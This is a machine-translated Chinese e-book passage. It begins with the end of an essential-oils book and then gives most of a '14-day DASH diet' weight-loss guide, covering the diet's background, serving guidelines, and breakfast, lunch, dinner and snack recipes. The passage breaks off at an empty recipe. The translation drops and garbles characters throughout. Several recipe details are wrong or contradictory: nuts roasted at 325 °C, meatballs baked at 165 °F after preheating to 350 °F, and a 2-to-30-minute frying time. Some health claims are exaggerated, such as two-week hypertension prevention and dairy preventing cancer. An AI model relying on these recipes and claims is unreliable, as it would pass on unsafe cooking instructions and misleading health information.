这是一个非常有效的配方，将很大程度上帮助你抑制饥饿感。因此，下次去餐厅或参加聚会时，随身携带吸入器。你也可以将吸入器放在办公桌上，在午餐休息前吸入。

享受上述提到的配方，过上更快乐的生活！

## 结论

再次感谢下载这本书！

我希望这本书能够帮助你理解精油是多么简单、愉快且有效。

下一步是开始尝试这些不同的油，并体验它们带来的健康益处。

最后，如果你喜欢这本书，我想请你一个忙，你愿意在亚马逊上给这本书留个评价吗？将不胜感激！

点击此处在亚马逊上为这本书留评！

谢谢并祝你好运！

# 14 天 DASH 饮食减肥法

# 初学者全 DASH 饮食食谱计划

# 关于我最喜欢的饮食的额外信息

在 KindleBookSpot.com 获取更多免费和廉价书籍

## 目录

引言

第 1 章 – 概述：减肥的 DASH 饮食解决方案

第 2 章 – DASH 饮食指南

第 3 章 – DASH 饮食及其特点

第 4 章 – DASH 饮食早餐创意

第 5 章 – DASH 饮食午餐创意

第 6 章 – DASH 饮食晚餐创意

第 7 章 – DASH 饮食零食创意

第 8 章 – DASH 饮食甜点创意

第 9 章 – DASH 饮食最终提示

结论

现在是时候大变了！过去几年里，美国最好的减肥饮食一直让许多人的生活变得健康快乐——这就是 DASH 饮食。

DASH（终止高血压饮食法，Dietary Approaches to Stop Hypertension）是一种流行的饮食计划，最初旨在降低高血压，现在已被证明是增加减肥效果并产生长期效果的有效计划。随着大脑功能的增强和胆固醇水平的降低，结果无疑是积极的——降低患心脏病、中风甚至肾疾病和糖尿病等疾病的风险。

这个计划非常有效，像高血压之类的医疗健康状况可以在短短两周内得到预防。此外，它也有助于减肥！其结果得到了科学研究的支持并经了用户的证明。

毫无疑问，你对减肥感兴趣——这正是你关注这本书的原因。不用担心，这本书可以让你减轻体重并实现目标。DASH 饮食的效果甚至更好，而且见效非常快。

市上有许多饮食计划，但大多数不能提供持续的效果，且难以坚持。DASH 则大不，因为它推广的饮食计划实际上易于遵循并融入你的日常生活。

这本书将为你提供关于这种神奇饮食计划的正确知识，它是如何运作的、其优势，以及许多美味的食谱，这些食谱将确保你的饮食习惯恢复到更高的水平。阅读完本指南后，你对正确饮食和变得更健康将有更好的视角。

接受减肥和维持健康生活方式的挑战。与 DASH 一起！

感谢下载《14 天 DASH 饮食减肥法 – 初学者全 DASH 饮食食谱计划》

希望你喜欢它！

# 第 1 章 – 概述：减肥的 DASH 饮食解决方案

在你开始之前，至关重要的是了解 DASH 程序是什么，以及它与其他方案的不同之处。

# 什么是 DASH 饮食？

DASH 代表“终止高血压饮食法”（Dietary Approaches to Stop Hypertension）。它基本上是一种由美国国家健康研究院（NIH）支持的饮食计划。它的制定是为了帮助控制和消除该国的高血压或“高血压”。

这种饮食包含什么？嗯，鼓励采取这种饮食的人摄更多的水果和蔬菜，以及非脂乳制品或低脂肪乳制品。鱼类、禽肉、谷物以及坚果也是允许的。然而，该饮食限制的内容包括：任何脂肪类、红肉、甜食和酒精饮料。

该计划的开发引发了深受高血压的美国居民的兴趣。因此，NIH 对随机受试者进行了测试，并在各种医院、研究机构和大学进行了研究，以确定这种饮食计划的有效性。结论是 DASH 饮食在降低血压和其他心血管疾病方面是有效的。

由于该饮食的核心主要是正确的食物，它已经历了不同的版本。现在有专门针对健康的 DASH 饮食、针对素食者的 DASH 饮食以及一种针对减肥的特殊 DASH 饮食计划，这本书将重点关注后者。

# DASH 研究：起源

如所述，DASH 代表“终止高血压饮食法”。这在美国已经开发了 50 多年。该国高血压病例的增加导致政府拨付资金开发这种饮食。

20 世纪 90 年代，美国主要的健康机构和研究中心合作，开展了关于 DASH 最广泛的研究。研究重点是于人们可以在超市或杂货店买到的食物，这使这种饮食易于遵循。

以下是 DASH 研究过程的简回顾：

基本上，研究是利用两个实验组和一个对照组进行的，如下：

- 第 1 组：这一组被称为“蔬菜和水果”组。这个实验组摄入更多的蔬菜和水果，以及较少的零食和糖分食品。

- 第 2 组：这个实验组被指示摄大量的蔬菜、水果以及乳制品（低脂）。通过这种方式，受试者获得了更多的钾、镁和其他营养素。这种饮食也富蛋白，因为禽肉、坚果也受到了高度鼓励。然而，被禁止的食物包括甜味食品/饮料和红肉。

- 对照组：这一组被指示像典型的美国人那样吃东西。基本上，这种饮食充满了脂肪和蛋白质，而镁、钾和其他钙等矿物质含量较低。

这项研究的结果是什么？

裁定是：饮食习惯对人有影响，特别是那些遭受各种程度高血压的人。在研究中，第 1 组的血压下降，但没有第 2 组那么显著。事实上，第二组中没有高血压的个人也经历了血压下降。

# DASH 钠

这项研究是在 DASH 研究成功后进行的。此项研究目的是确定在低盐饮食的情况下，DASH 饮食是否能进一步降低血压。研究的目标是研究低盐水平如何影响 DASH 饮食，以及该饮食对不同钠摄入水平的反应。

研究参与者包括那些采用美国平均饮食的人群和采用 DASH 饮食的人群。每个小组的参与者被要求在不同的盐分水平下进行期 30 天的饮食，包括：每天 1500mg、每天 2400mg 和每天 3000mg。

结果如何？

结果是：当盐分水平降低时，对照组和采用 DASH 饮食的组的血压都出现了下降。然而，当盐摄入量减少到每天 1500mg 时，下降幅度最为显著。

根据这一结果，研究人员建议必须减少每日盐量。根据美国的饮食指南，美国平均人每天应摄入 2300mg 盐，而高血压患者每天应只摄入 1500mg。

# 用于减肥的 DASH 饮食

虽然 DASH 饮食最初是为了帮助治疗高血压而开发的，但研究也表明，它是支持减肥的极佳饮食计划。这种饮食在促进身心健康的同时能促进减肥。通过大量依赖天然食物，最快 14 天内即可实现这一效果——无需挨饿！

该饮食的重点是天然或真实的食物——这种饮食中没有使用防腐剂和添加剂的空间。它更多关注水果和蔬菜，并含有适量的蛋白质。根据这一原则，它被视为历史上最理想的减肥饮食计划。允许的食物既饱腹又美味，而且是任何人都可以终身遵循的。它更像是一种具有巨大益处的常规饮食。

# 工作原理 – 第 1 和第 2 阶段

DASH 饮食分为两个阶段：

第一阶段：这是饮食计划的前 14 天。在这个阶段，重点是低碳水、低糖和高蛋白食物。此时暂时不允许食用谷物和水果。目标是重新调整代谢并增强身体燃烧热量的自然能力。这有助于加速减肥。

第二阶段：阶段重新引入全谷物、富淀粉蔬菜以及水果，以增强身体控制血压和体重增加的能力。

在第一阶段，你需要摄入大量的蛋白质，如坚果、鱼类、瘦肉等，以及不含淀粉的蔬菜。这可以防止饥饿，从而避免过度进食。此外，它还能稳定血糖，降低对胰岛素的需求，从而增加对更健康轻盈食物的渴望。

坚持 DASH 饮食可以让任何人变得更健康、更苗，而无需经历严苛的节。通过这种饮食，你实际上可以享受：

- 一天三餐，中间有小零食——不需要剥夺感。
- 大量享受健康且饱腹的蔬菜，同时保持低热量摄入。
- 吃肉，那些真正让人满足的瘦蛋白。
- 使用无脂和低脂乳制品满足食欲。
- 用新鲜水果缓解对甜食的渴望。
- 吃脆美味的坚果和种子，它们有助于减肥和健康。

最重要的是，遵循 DASH 规则，见证你的体重的下降和健康的提升。

# 第 2 章 –  DASH 饮食指南

DASH 饮食计划非常简单，易于遵循。它利用常见的食物，即在超市里很容易看到的食物。该饮食由来自各种食物组的项目组成。份份的量实际上取决于每日的热量需求，可以根据体力活动和年龄来计算。

对于本指南，基础热量需求范围为每天 1600 到 2600 卡里：

### 全谷物

理想份：每天 6 到 8 份

全谷物是 DASH 减肥计划的基础。此类食物富含纤维和营养素，同时低脂肪。然而，你应该只食用“全”谷物，否则饮食将不起作用。理想情况下，你应该只吃天然且未经加工的谷物。

尽管食用了谷物，导致体重增加常见原因之一是添加了乳制品或钠含量很高的酱料。尽可能减少谷物中脂肪和咸盐的添加品。

示例：1 份谷物包括：½ 杯燕麦片/糙米、1 片全麦面包、½ 杯全谷物面条或意面。

## 水果

理想份：每天 4 到 5 份

虽然水果不是 DASH 第一阶段的一部分，但它们成为第二阶段至关重要的组成部分。大多数水果都是低脂肪的，富含纤维以及镁、钾等其他营养素，可以减少对甜食的渴望。

水果可以通过多种方式摄入，但最好是新鲜的。因此，饭后吃 1 或 2 份水果完全无害。带皮食用水果以最大化纤维摄入也是理想的。只要没有糖，果汁形式也可以接受。

示例：一份相当于半杯浆果、½ 杯无糖果汁或一个中等苹果或其他水果。

## 蔬菜

理想份：每天 4 到 5 份

在减肥的 DASH 饮食期间，你通过蔬菜获得大部分必需营养素。最佳选择是富含维生素、纤维和镁等营养素的蔬菜。

不要把自己局限于主要是凯撒沙拉。不要把蔬菜看作是不吃的，因为有很多蔬菜实际上可以成为一道主菜。在本书的后面，你将学习适合这种的简单蔬菜烹饪谱。只需确保蔬菜大小中等，以带出独特的风味。

示例：半杯黄瓜或胡萝卜与 1 杯生菜等绿叶的效果相同

## 蛋白质 – 鱼类和瘦肉

理想份：每天 2 份

无疑，肉类含有大量的蛋白质、维生素 B 以及铁。然而，它们也含有胆固醇、脂肪，最重要的是热量。尽管如此，饮食中也必须包含瘦肉。

但，瘦肉不应该是你和大多数人习惯的那种餐食中心。可能的话，避免炸肉，并坚持使用不用多少脂肪烹烹技巧，如烤、煮等。

示例：鱼和鸡肉、火鸡和其他禽肉即可。2 份相当于 3 盎司或大约 3 个火柴盒

### 乳制品

理想份：每天 2 到 3 份

乳制品在某些饮食计划中被禁止，但在 DASH 中不是。事实上，推荐奶酪、酸奶、开乳和牛奶等食品不仅改善骨骼健康和消化，还有预防癌症。

在其他计划中，乳制品被认为对胃不好且脂肪高。然而，上述乳制品是无脂或低脂的。因此，你摄入的脂肪是健康的种类。低脂乳制品也有低钠和低热量。

示例：一份乳制品相当于一杯酸奶、牛奶或 1¼ 杯奶酪。

## 豆类和坚果

理想份：每周 4 到 5 份

豆类、坚果和各种种子富含蛋白质、纤维、营养素以及脂肪酸——欧米 3。它们还含有大量的植物化学物质，有助于身体避免心血管疾病。

将将此类食物纳入饮食的最佳方法是控制分量大小。例如，坚果很好吃，你可能在不经意间就吃了一把。几手坚果也相当于高额的热量。减少热量的一种极好方法是选择无盐品种。

示例：一份份量等同于半杯煮豆子、1/3 杯坚果或 2 到 3 汤种子。

## 糖分 – 甜点

理想份量：每天 5 份

DASH 饮食的迷之处在于，它不会剥夺你生活中的简单快乐。所以，不要忘记甜点，因为你被允许享用一点甜食。

尽管新鲜水果必须是你餐食的中心，但黑巧克力是允许的，因为它对[心脏]有益健康。其他可以满足你对甜食渴望的东西还包括高可可含量甜点、水果雪冰奇和硬糖。你也可以摄入人工甜味剂，但要确保控制量并不要过度依赖它。

示例：一份份量等同于一汤果酱、½ 杯冰镇水果或雪冰奇、一杯像柠檬水之类的果汁饮料、3 到 4 小块黑巧克力和 8 到 10 颗硬糖。

## 油油和脂肪

理想份量：每天 2 到 3 份

你应该知道，正确的脂肪类型实际上是利多于弊。健康的脂肪能促进维生素的吸收，帮助增强免疫系统并改善心血管健康。

强烈建议摄入不饱和脂肪，而不是与肥胖和心脏疾病相关的反式和饱和脂肪。为了健康食用脂肪，将每日摄入量限制在 6% 以内，你就沿着正确的道路了。

示例：一份份量等同于 1 勺蛋黄酱或 2 勺沙拉酱汁、1 勺食用油。

## 钠

### 理想份量：每天 1500 到 2300 毫克。

DASH 饮食在钠方面相当严格。重点是上述低钠含量的食物。尽管 DASH 饮食允许达到标准水平（即每天 2300 毫克），但最好坚持较低的限制。为了获得最佳指导，建议咨询医生讨论你的钠摄入量，特别是如果你有已知的心血管疾病的话。

## 第 3 章 – DASH 饮食及其特征

在 DASH 饮食中，不需要忍受饥饿和剥夺——它仅仅是一种更健康的饮食方式，让你体验到长期的健康益处。事实上，它并不是那种包含视频光盘之类内容的饮食计划。DASH 饮食基本上是美国正确饮食方式的缩影——这是每个人都应该遵循的方式。

此外，这种饮食不仅鼓励健康的饮食习惯，符合此饮食标准的食谱还对健康零食提供了建议——这有助于每一个人个人避开加工食品和垃圾食品。该饮食整体并不针对那些有高血压的人群。DASH 是一种种全方位的生活方法，通过减少盐分摄入并增加维生素、矿物质和必需营养素的摄入来实现健康的生活和饮食。

为了帮助你更好地理解这种饮食，请快速查看它的特征：

## DASH 富含纤维

这种饮食通过鼓励增加蔬菜、水果以及各种全谷谷物的摄入量，促进了高纤维摄入的生活方式。通过这种方式，你会感到饱腹，同时帮助身体对抗高血压。

此外，摄入更多纤维与调节血糖水平有关，这也有助于减轻。

## DASH 富含矿物质和维生素

身体所需的必需维生素和矿物质可以在蔬菜、水果以及全谷物中找到。基本上，一般的全食物和未加工食品都富含良好的营养。

此外，大多数水果和蔬菜含有大量的钾和镁，这非常有助于将血压调节在正常水平。

## 健康脂肪

食用好脂肪是 DASH 饮食的重点——这种饮食的目标是尽可能减少坏脂肪的摄入。脂肪主要有两种类型：坏的和好的。在垃圾食品或加工食品中以及黄油和其他脂肪产品中找到饱和脂肪和反式脂肪被认为是“坏蛋”。

此类脂肪来源必须用好脂肪来源替代，例如来自三鱼和金枪鱼等鱼类的 omega 3 脂肪酸、种子、坚果以及零脂或低脂乳制品，以及禽类等瘦肉。

## 减少盐摄入

平均而言，美国人每天的钠分配量为 3500 毫克。DASH 饮食在盐摄入方面更为严格，因为研究证明减少盐摄入对降低高血压和减轻体重有显著效果。

通过 DASH 饮食，个人允许每天摄入 1500 毫克到 2300 毫克的盐。为了获得这种饮食的奇妙益处，应该遵循这一点。

## DASH 对糖、咖啡因和酒精说“不”

如果你想成功地采用 DASH 饮食，你大多数时间需要远离糖。所以，忘记过度沉溺于你喜爱的汽饮料，或者可能在杂货商店货架上随手拿的加工糖果零食吧。饮食是关于做出更健康、饱腹且满足的选择。

此外，该饮食建议减少或完全消除咖啡因和酒精，因为这些的营养价值很少或没有，并且含有大量的糖，可能导致高血压、糖尿病等疾病。

## 卡路里和钠摄入

在 DASH 饮食方面实际上并没有很多限制。原则非常简单，食物选择非常容易获得。任何进行这种饮食的人每天最多可以采用 3100 卡路里，或者选择每天最低 1500 卡路里。

钠也是如此——可以选择每天摄入 1500 毫克的盐，或选择每天 2300 毫克的较高量。当然，你每天必须摄入的钠和热量必须取决于某些因素，如下：年龄、当前体重、体力活动、任何现有状况如高血压等。

理想情况下，超重人士应该选择较低的钠和卡路里摄入，而体重正常范围内的人则反之。在患血压的情况下，低盐饮食至关重要。为了获得最佳建议，强烈建议咨询医生或营养师。

## 第 4 章 – DASH 饮食早餐创意

DASH 促进以正确的量进行健康饮食。这为跳过早餐提供了借口。这顿饭让你为一整天做好准备。本章将分享适合你晨食的美食。

## 食谱 1：西兰花奶士欧姆蛋

这可以搭配一杯低脂或零脂牛奶、一片全谷物吐司或你喜欢的蔬菜和水果一起吃。

你需要：

- 4 个鸡蛋
- 1/3 杯切达尔芝士（低脂）
- 2 到 3 杯西兰花朵
- 1/3 杯帕玛森芝士（磨碎）
- 1 杯蛋蛋白白
- 少许盐和胡椒调味
- 1 勺 橄榄油

制作方法：

- 煮水/蒸西兰花朵 4 到 6 分钟
- 将西兰花捣碎成小块，然后用胡椒和盐调味
- 热锅，淋入橄榄油
- 将 4 个全蛋和 1 杯蛋白白、帕玛森芝士混合
- 将蛋液淋在西兰花上并倒倒入煎锅中
- 撒上切达尔芝士并翻面
- 烹饪 2-3 分钟即可享用。

## 食谱 2：豆腐辣椒惊喜

在 DASH 饮食的第一阶段，你需要储备蛋白质。豆腐是极好的蛋白质来源，但与肉类相比，它健康得多。

你需要：

- 500 到 600 克特硬豆腐
- 2 到 3 瓣大蒜末
- 1 个大洋葱切碎
- 1 个辣椒（波布拉辣椒），切碎并去籽
- 1 杯番茄碎
- 1 到 2 勺 柠檬汁
- 少许干牛至、孜然粉和辣椒粉
- 少许盐
- 1 勺 油

制作方法：

- 用厨房纸巾擦干豆腐水分，在将其弄碎前先切成小块
- 热锅并淋入橄榄油。加入洋葱、大蒜和胡椒
- 在加入香料前翻炒 3 到 5 分钟。将碎豆腐放入锅中，然后，调小火
- 在间隙搅拌期间煮。在关火前，加入柠檬汁和番茄。享用！

# 食谱 3：简易 DASH 金枪鱼沙拉

这是一道快速且无需烹饪的 DASH 食谱，一定能帮助你日复减重。

你需要：

- 一罐浸泡在水中的低盐金枪鱼
- 2 汤轻量蛋奶酱
- 1 个鸡蛋，煮熟后并切丁
- 一把 罗马生菜
- ½ 杯切碎的芹菜
- ½ 杯樱桃番红柿
- 切碎的蔬菜：黄瓜或胡萝卜

制作方法：

- 在小碗中将鸡蛋、金枪鱼和蛋奶酱混合。
- 在盘中摆好罗马生菜、番红柿和切碎的蔬菜。
- 在蔬菜上方放入约 3¼ 杯金枪鱼混合物。
- 在顶部撒上芹菜。享用吧！

# 食谱 4：健康法式吐司

这道食谱使用了全粒面包，最好搭配 1 杯低脂牛奶（如果可能的话用零脂牛奶）以增加蛋白质和营养元素。

你需要：

- 4 片低脂/零脂牛奶面包
- ½ 杯低脂/零脂牛奶
- 1 个全蛋
- 1 汤糖
- ½ 杯苹果泥
- 一小撮肉桂粉

制作方法：

- 将鸡蛋、牛奶、肉桂、苹果泥和肉桂在一个碗中混合。充分搅拌。
- 浸泡面包，确保完全吸收蛋奶混合液。
- 在平锅中涂上少许黄油，将面包片煎至金黄色。
- 热热上桌并享用吧！

# 食谱 5：水果核桃煎饼

对于这道煎饼食谱，请忘记糖浆吧——改用香草味零脂酸奶代替它。增加的蛋白质会让你在整个上午都感到饱腹。

你需要：

- 1 根压过的香蕉
- 3 个蛋蛋白
- 一杯面粉（全麦粉）
- 一杯脱脂牛奶
- 2 汤核桃（切碎）
- 2 茶匙泡打粉
- 2 茶匙油
- 一小撮肉桂和盐

制作方法：

- 在碗中混合鸡蛋、香草、牛奶、油和香蕉，搅拌至顺滑。
- 在另一个碗中混合干性原料，倒入湿性混合物中。搅拌至没有干粉颗粒为止。
- 在锅内涂油，将约四分之一的煎饼糊倒入锅中。等待边缘煎熟并观察是否产生气泡。翻面煎饼。上桌并享用吧！

# 食谱 6：燕麦煎饼——全麦风

煎饼确实美味，但可能富含脂肪和不必要的添加剂。尝试这个更健康的版本吧。

你需要：

- 1 杯燕麦
- 半杯多功能面粉
- 半杯全麦面粉
- 1 杯低脂牛奶或 0% 脂肪品种
- 2 个鸡蛋
- 1 汤植物油
- 1 汤糖粉
- 3 汤匙枫糖糖浆
- 一小撮盐

制作方法：

- 使用搅拌机磨碎燕麦。然后将其与面粉、牛奶、盐、鸡蛋和植物油混合。
- 搅拌直到所有原料混合均匀。
- 热平锅并涂上喷喷油。倒入约 ¼ 杯混合物，让其煎 1 到 2 分钟或直到顶部出现气泡。煎另一面。
- 撒上糖粉和枫糖糖浆享用。享用吧！

# 食谱 7：奶味辣椒炒蛋

在这道食谱中，使用低脂或零脂牛奶对减脂有很大帮助。

你需要：

- 3 个鸡蛋，打散
- ¼ 杯牛奶
- ¼ 杯白洋葱或青葱
- ½ 杯切碎的甜椒
- ¼ 杯切碎的番红柿
- 一小撮盐和胡椒
- 些许辣椒酱

制作方法：

- 热锅并涂上喷喷油。炒炒洋葱、番红柿和甜椒。炒至原料变软。备用。
- 在碗中混合牛奶、鸡蛋、盐、胡椒和辣椒酱。倒入锅中，不时搅拌并烹饪。
- 煎至鸡蛋凝固但保持湿润。关火拌入蔬菜。享用吧！

# 第 5 章 – DASH 饮食午餐建议

在 DASH 饮食中，吃午餐将无疑是一次愉快的体验。不需要跳过午餐。这里有一些你可以在家里轻松尝试的丰盛美味午餐食谱。

# 食谱 1：芝士蘑菇蔬菜卷

这是一道易于做的轻食且令人满足的食谱。只需确保使用全麦饼饼或皮塔饼。

你需要：

- 2 个全麦饼饼或皮塔口袋（8 英寸圆形）
- 2 到 3 杯切碎的蘑菇（香菇或褐菇）
- 250 克芝麻菜或菠菜
- 半杯切丁番红柿
- 1 茶匙大蒜（末）
- 半杯碎的低脂马苏里拉奶士
- 1 汤橄榄油

制作方法：

- 热锅，淋橄榄油。加入大蒜和蘑菇。炒至棕色。
- 在每个饼上层层铺上蘑菇、芝士、番红柿和菠菜。卷起放入热锅中。
- 加热蔬菜卷直到芝士融化。出锅并对半切。享用吧！

# 食谱 2：美味火鸡香肠配土豆

与其使用牛肉，在不牺牲味道和营养的情况下去除那些多余脂肪的最佳方法是使用瘦肉。

你需要：

- 2 到 3 杯火鸡香肠
- 250 克土豆
- 1 杯洋葱
- 1 杯番红柿
- 一少许盐和胡椒
- 1 汤油

制作方法：

- 热锅并涂上油。炒洋葱和番红柿。
- 加入香肠和土豆。炒至原料变软。
- 用盐和胡椒调味。享用吧！

# 食谱 3：三文鱼皮塔卷

在 DASH 饮食中，使用三文鱼是获取健康脂肪的好方法。这种皮塔卷快速且营养。

你需要：

- 300 克三文鱼
- 1 杯酸奶
- 2 汤洋葱
- 2 汤甜椒
- 3 个皮塔饼
- 1 汤柠檬汁
- 1 汤橄榄油

制作方法：

- 烹饪三文鱼直到熟透。
- 混合酸奶、洋葱、甜椒和柠檬汁。
- 在皮塔饼中填入三文鱼和酸奶混合物。享用吧！

# 食谱 4：DASH 面条

谁说减肥期间不能吃面？这个版本充满了纤维和营养。

你需要：

- 400 克全麦意面
- 4 瓣大蒜
- ½ 杯帕玛森芝士
- 2 杯西兰花碎
- 3 汤匙橄榄油
- 盐和胡椒适量

制作方法：

- 煮面条至弹牙状态（al dente）。
- 用橄榄油炒大蒜和西兰花。
- 将面条、西兰花和芝士混合。
- 用盐和胡椒调味。享用吧！

# 食谱 5：橙味鸡肉

这是一道带有柑橘味的咸鲜肉肴，非常健康且风味独特。

你需要：

- 300 克鸡胸
- 1 杯低脂酸奶
- 2 汤洋葱
- 2 汤橙汁
- 1 汤蜂蜜
- 盐和胡椒适量

制作方法：

- 将鸡胸在酸奶、洋葱、橙汁、蜂蜜、盐和胡椒中腌制 30 分钟。
- 在热锅中煎鸡肉直到熟。享用吧！

# 食谱 6：风味肉串

鸡肉在 DASH 饮食中被视为优质肉类蛋白质来源。尝试这道惊人的食谱，享受绝佳的味道吧。

你需要：

- 500 克去骨鸡胸
- 1 汤匙芥末
- 1 汤柠檬汁
- 半杯低脂酸奶
- 3/4 汤咖喱粉
- 红绿甜椒切1 英寸块
- 一小撮肉桂粉
- 白洋葱切1 英寸块
- 土豆切1 英寸块
- 一少许盐和胡椒

制作方法：

- 将鸡肉放入密封袋。备用。
- 混合酸奶、肉桂、咖喱粉、芥末、柠檬汁、胡椒和盐。将混合物淋在鸡肉上。
- 密封袋让肉类均匀包裹。放入冰箱 2 到 6 小时。偶尔翻转以使风味渗透。
- 预热烤箱/烤架。用金属串穿上鸡肉——依次鸡肉、洋葱、甜椒和土豆。
- 每面煎 5 到 8 分钟，直到肉熟。享用吧！

# 食谱 7：意大利火鸡肉丸

火鸡是红肉的另一种极佳替代品。你可以使用这种瘦肉制作出一道美味且风味丰富的菜肴。

你需要：

- 500 克碎火鸡肉
- 1 个大大洋葱，切碎
- 半杯轧制燕麦
- 3 匙无脂牛奶
- 1 个绿青椒，切碎
- 1 个打散的鸡蛋
- 3 瓣大蒜，切末
- 少许盐和黑胡椒
- 少许碎干罗勒叶/欧芹
- 1 匙克里奥调料/调味粉

制作方法：

- 预热烤箱至 350 华氏度。在烘烤盘上涂上不粘层。备用。
- 在碗中，将火鸡肉、燕麦、牛奶、鸡蛋、洋葱、青椒、盐、胡椒以及罗勒或你喜爱的任何意大利香料混合均匀。
- 使用冰淇淋勺挤成肉丸并摆放在盘中。
- 在 165 华氏度下烘烤 30 分钟。享用吧！

# 第 6 章 – DASH 饮食晚餐创意

用健康清爽的晚餐度过用餐时光总是很不错的。为此，这里有几道简单易于准备且你一定会喜欢的食谱：

# 食谱 1：鱼肉与甜椒

鱼类是 DASH 饮食允许的富蛋白食物之一——胆固醇和热量较低。

你需要：

- 250 克鱼排
- 1 杯切碎的黄椒/绿椒
- 1 个洋葱，切碎
- 1 杯切丁番茄
- 1 到 2 杯蘑菇（香菇或波柄菇）
- 2 匙橄榄油
- 少许干牛至香

制作方法：

- 将鱼切成大块，用纸巾吸干水分。
- 热锅，加油，炒洋葱、青椒和蘑菇。烹炒 3 到 5 分钟。备用。
- 在锅中加入一些油，煎鱼 7 到 10 分钟。当鱼肉呈易碎状时，说明鱼已经熟好了。
- 将煮好的蔬菜和切丁番茄加入鱼中。再煮 1 分钟。享用吧！

# 食谱 2：罗勒风味虾仁串

这是一道充满极佳风味的菜肴。搭配全谷物面条或糙米食用最好。

你需要：

- 300 克大虾，已去虾和去壳
- 半杯奶酪碎/帕玛森芝士
- 一杯切碎的新罗勒
- 3 匙橄榄油
- 1 瓣大蒜
- 适量盐和黑胡椒调味

制作方法：

- 在食物料理机中将芝士、大蒜、罗勒、胡椒和盐混合。搅拌时逐渐加入油。
- 将虾浸在青酱混合物中腌制。冷藏至少一小时。
- 将腌制好的虾穿在金属或木质串签上。
- 放在烤架上，每面烤 3 到 5 分钟。享用吧！

# 食谱 3：开胃鱼肉卷饼

用鱼肉做卷饼是一种享受这种喜爱的不同但独特的方式。加入墨西哥辣椒和青柠增加风味冲击。

你需要：

- 250 克罗非鱼鱼柳排
- 2 到 3 个切碎的墨西哥辣椒，去籽
- 1 个洋葱，切碎
- 1 到 2 杯番茄切丁
- 1 杯切丝卷菜
- 3 匙柠檬汁
- 半杯切碎的香菜
- 1 个牛油果，切薄片
- 少许盐和黑胡椒
- 玉米饼皮
- 4 到 5 匙无脂酸奶

制作方法：

- 热锅加油，煎炒大蒜和洋葱。加入罗非鱼肉，至至易碎。
- 拌入香菜、番茄和辣椒，然后淋上柠檬汁。最后用胡椒和盐调味。
- 加热玉米饼皮，将煮好的鱼混合物盛在饼上。加入薄片牛油果、酸奶和卷菜丝。享用吧！

# 食谱 4：健康菠菜意大利面

这是一道简单又健康的面食食谱，非常适合没有太多时间准备晚餐时。

你需要：

- 350 克 全麦意大利直面
- 200 克 小菠菜
- 4 匙橄榄油
- 4 到 5 瓣大蒜，切末
- ½ 杯帕玛森芝士（磨碎的）
- ½ 茶匙辣椒碎
- 少许盐和黑胡椒

制作方法：

- 锅中加盐烧开水。放入意大利面并按照包装说明烹煮。滤干并保留一些面水备后用。
- 在锅中加热油，放入大蒜、辣椒碎，煎至大蒜呈浅褐色。加入菠菜，翻炒一至两分钟。
- 加入意大利面和磨碎的帕玛森芝士。享用吧！

# 食谱 5：番茄鸡肉米饭填料

用低钠高汤煮的米饭是你的 DASH 食谱的绝佳补充。

你需要：

- 1 块鸡胸肉
- 1 杯糙米/野米
- 4 个大番茄
- 半杯磨碎的帕玛森芝士
- 一杯水和低钠蔬菜汤
- 1 到 2 匙新鲜罗勒
- 2 匙橄榄油

制作方法：

- 根据包装说明，使用水和低钠汤煮米饭。
- 预热烤箱至 350 华氏度。然后，煎鸡胸肉。
- 与此同时，切开番茄顶部并去籽。米饭煮好后，放入一些大蒜、鸡肉和罗勒，然后撒上大量的帕玛森芝士。淋上一些橄榄油。
- 在烤箱中烘烤 15 到 20 分钟。享用吧！

# 食谱 6：亚洲风味烤豆腐

豆腐吃起来像肉，但健康得多。尝试这道充满丰富亚洲风味的菜肴。你一定会喜欢。

你需要：

- 1 块大硬豆腐，切块（400 克左右）
- 1 匙低钠酱油
- 3 匙芝麻油
- 1 匙枫糖浆
- 1 匙苹果醋
- 1 到 2 匙菜籽油
- 1 个洋葱，切片
- 一把荷兰豆
- 一 茶匙芝麻
- 少许盐和黑胡椒

制作方法：

- 预热烤箱至 400 华氏度。
- 在碗中混合豆腐、芝麻油、菜籽油并用盐和胡椒调味。撒在不粘烤盘上，放入烤箱烤 15 分钟。
- 将枫糖浆、苹果醋和酱油混合。
- 从烤箱中取出豆腐，加入荷兰豆并淋上酱。撒上一些芝麻。再烤 5 分钟。享用吧！

# 食谱 7：意式烩饭饭

有时，你可以给自己准备一份肉质丰盛的菜肴。这道菜用了羊肉。你也可以用猪肉或牛肉这样做。只需确保它是每天晚餐的一部分。

你需要：

- 1 公斤去骨羊肩肉
- 1 匙咖喱粉
- 1 个大绿青椒，切碎
- 2 根胡萝卜，切碎
- 2 到 3 杯蔬菜汤，减盐
- 少许盐和黑胡椒
- 一杯糙米

制作方法：

- 切掉羊肉的脂肪。如果你愿意，可以将肉切片，方便在慢炖锅或电锅中烹饪。
- 在锅中喷一些不粘喷雾。将羊肉两面煎黄。滤出多余脂肪。
- 将蔬菜汤、糙米、盐、咖喱放入慢炖锅。将胡萝卜放在上面，然后放入肉。
- 低火烹饪 9 小时，或高火烹饪 4 到 5 小时。
- 加入青椒，让它煮 5 分钟。享用吧！

# 第 7 章 – DASH 饮食零食创意

即使在 DASH 饮食期间，每天也可以吃 2 到 3 次零食。因此，这里有一些你可以遵循的优秀食谱：

# 食谱 1：蔬菜填充墨西哥薄饼

这种墨西哥点心通常填有肉类。为什么不用蔬菜填充来创造一个更健康的版本呢？

你需要：

- 5 张软玉米饼皮，最好是全麦的
- 1 个洋葱，切成细条
- 2 个青椒，切成细条
- 半杯低脂奶油奶酪
- 1 匙橄榄油
- 半 茶匙辣椒粉
- 半 茶匙 孜然粉
- 一把香菜或欧芹

制作方法：

- 热一个不粘锅，用橄榄油翻炒洋葱和青椒 4 到 5 分钟，直到变软。加入辣椒粉和孜然粉。再炒几分钟。淋上一些欧芹，然后备用。
- 在半张饼皮上涂抹奶油奶酪。铺上辣椒洋葱混合物，折叠并压平。
- 在另一个锅中煎制 2 到 30 分钟，轻轻按压直到芝士融化。你可以搭配莎莎食用。享用吧！

## 食谱 2：香草坚果惊喜

坚果被认为是健康的食物，尤其是烘烤过的。去尝试一下这个很酷的食谱吧。

你需要：

- 2 杯杏仁果
- 1 匙橄榄油
- 1 匙碎迷迭香
- 一小撮犹太食盐
- 一小撮红辣椒粉

制作方法：

- 将烤箱预热至 325 摄氏度。
- 在碗中混合所有食材。翻拌均匀使坚果裹上油。
- 在烤盘上铺上锡纸，摆放坚果。
- 烘烤 15 到 20 分钟，直到坚果烤至黄色。让其冷却。享用吧！

## 食谱 3：水果莓三明治

这是一种完全美味的甜点，不会花费你太多时间。作为周末或派对的零食非常完美。

你需要：

